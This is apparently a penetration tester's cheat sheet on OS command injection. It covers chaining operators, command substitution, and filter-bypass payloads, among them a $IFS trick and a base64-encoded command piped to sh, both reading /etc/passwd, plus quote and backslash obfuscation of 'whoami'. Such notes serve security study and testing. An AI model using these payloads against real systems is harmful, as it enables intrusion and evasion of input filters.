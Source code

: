 ```yaml
---
icon: terminal
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: false
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Command Injection

## Chaining and Invoking

```powershell
;    # Executes one command and then another
&    # Executes a command in the background, followed by the other one
|    # Redirects the output the first command as input to the second command
&&   # Executes the second command if the first command succeeds
||   # Executes the second command if the first command fails
```

Its also possible to inject command via **command substitution**, where the output of a command is captured and used in another context

```bash
$(command)    # Both windows and linux systems
`command`     # Only linux systems
```

## Bypasses

* [https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)
* [https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses)

### Space Bypass

Avoid using spaces with **Internal Field Separator** `$IFS` . The default value of IFS is a space, a tab, and a newline.

```bash
cat$IFS/etc/passwd
```

```bash
# Only works in bash
{echo,Y2F0IC9ldGMvcGFzc3dk}|{base64,-d}|sh
```

### Blacklisted Words

```bash
# Quotes ' / "
w'h'o'a'm'i'     # Both windows and linux systems
wh''oami         # Both windows and linux systems
'w'h'o'a'm'i     # Only linux systems

# Backslashes
\w\h\o\a\m\i     # Only linux systems
w\h\o\a\m\i      # Only linux systems

# $()
wh$()oami        # Only linux systems
wh$(echo oa)mi   # Only linux systems

# ``
wh``oami         # Only linux systems
wh`echo oa`mi    # Only linux systems

# $@
wh$@oami         # Only linux systems
```

## References

[https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/#filter-bypasses)\
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
